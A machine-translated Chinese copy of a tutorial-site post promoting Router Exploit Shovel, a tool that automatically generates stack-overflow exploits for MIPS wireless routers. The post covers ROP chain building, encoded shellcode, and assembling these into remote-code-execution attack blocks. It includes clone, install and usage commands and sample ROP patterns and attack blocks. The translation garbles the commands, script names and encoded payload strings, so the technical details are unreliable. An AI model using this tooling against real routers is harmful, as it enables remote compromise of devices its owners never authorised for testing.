


# 路由器利用铲:无线路由器上栈溢出类型的自动应用生成

> 原文：<https://kalilinuxtutorials.com/router-exploit-shovel-automated-application-generation-for-stack-overflow-types-on-wireless-routers/>

**Router Exploit 铲子**是针对无线路由器上堆栈溢出类型的自动化应用程序生成。这是一个针对无线路由器上堆栈溢出类型的自动化应用程序生成工具。

该工具实现了漏洞利用的关键功能，它可以适应堆栈上数据填充的长度，生成 ROP 链，生成编码的外壳代码，最后将它们组装成一个完整的攻击代码。

用户只需将攻击代码附加到 POC 的溢出位置，即可完成利用远程代码执行的攻击。

该工具支持 MIPSel 和 MIPSeb。在 Ubuntu 16.04 64 位上运行。

**又念——[多洛斯斗篷:自动 802.1x 绕过](https://kalilinuxtutorials.com/dolos-cloak-automated-802-1x-bypass-network-penetration/)**

**安装**

确保你已经安装了 git、python3 和 setuptools。从我们的 Github 下载源代码:

**$ git 克隆 https://github.com/arthastang/Router-Exploit-Shovel.git**

**设置环境并安装依赖项:**

**$ cd 路由器-Exploit-铲子/
$ python3 setup.py 安装**

**用途**

**$ python 3 Router _ Exploit _ slope . py-h

用法:Router _ Exploit _ slope . py【选项】
选项:
-h，–help 显示此帮助信息并退出
-b BINARYFILEPATH，–binary file = binary file path
输入二进制文件路径
–ba = binarybase addr，–binarybase addr = binarybase addr
输入二进制基址，默认=0x00400000
-l**

**例如:**

**$ python 3 Router _ Exploit _ slope . py-b test _ binaries/mipse b-httpd-l test _ binaries/libuClibc-0 . 9 . 30 . so-o 0x 00478584**

**截图**

**代码结构**

**–Router _ Exploit _ slough . py #启动脚本
–databases/
|—ROP _ patterns/# ROP 模式的 YAML 文件
|—shellcodes/# shellcodes 的 YAML 文件
–example/# Nday 漏洞，完整报告和利用代码
–results/
|—ROP _ gadgets/# ROP gadgets 生成结果
|—Attack block . txt #攻击块生成结果
—ropper/#修改 ropper 模块获取所有小工具
–file bytes/。**

**ROP 链生成**

这个工具使用模式来生成 ROP 链。从常见 ROP 开发过程中提取模式。

使用正则表达式匹配来查找可用的小工具以填充链字符串。Base64 编码是为了避免重复字符转义。例如:

链结: (小工具 2)(小工具 1)bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb(睡眠)ccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc(call _ code)\ x22 \ x44 \ x44 \ x44 \ x42 \ x54 \ x44 \ x44 \ x44 \ x44 \ x44 \ x44 \ x42 \ x54 \ x44 \ x54 \ x51 \ x44 \ x44 \ x44 \ x54 \ x44 \ x54 \ x44 \ x54 \ x44 \*)移动\\$t9\\，\ \ $ s 1；lw \\$ra\\，0x 24 \ \(\ \ $ sp \ \)；lw \\$s1\\，0x 20 \ \(\ \ $ sp \ \)；lw \\$s0\\，0x 1c \ \(\ \ $ sp \ \)；(.*)；Jr \ \ $ T9；再见\\$sp\\、\\$sp\\、0x 28；小工具 2:KC 4 qkwfkzgl 1 ifwkbcbcjhplcm 9 clcaxoybtb3 zlfwkdclcbcjhxoybqyxyifwkddk 7 #小工具 2:(。*)附加\\$a0\\，\\$zero\\，1；移动\\$t9\\，\ \ $ s 1；jar \ \ $ T9；call _ code:KC 4 qkw 1 vdmugxcr 0 ovwsifwkczi 7 igphbhigxcr 0 ots = # call _ code:(。*)移动\\$t9\\，\ \ $ s 2；jar \ \ $ T9；stack _ gadget:KC 4 qkwfkzgl 1 ifwkjclcbcjhnwxcwgmxodsliopbw 92 zsbcjhq 5 xcwgxcrmdsgamfscibjhq 5 ow = = # stack _ gadget:(。*)再见\\$s2\\，\\$sp\\，0x 18；(.*)移动\\$t9\\，\ \ $ s 0；jar \ \ $ T9；

**攻击拦截**

您可以在 results/attackBlocks.txt 中获得生成的攻击块。例如:

攻击块= " aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaayyyy \ x2 a \ xb3 \ x7c \ X60 \ x2 a \ xb2 \ xbd \ xfbbbbbbbbbbbbbbbbbbbbb \ x2 a \ xb3 \ x5c \ xa 0 cccccccc

[Download](https://github.com/arthastang/Router-Exploit-Shovel)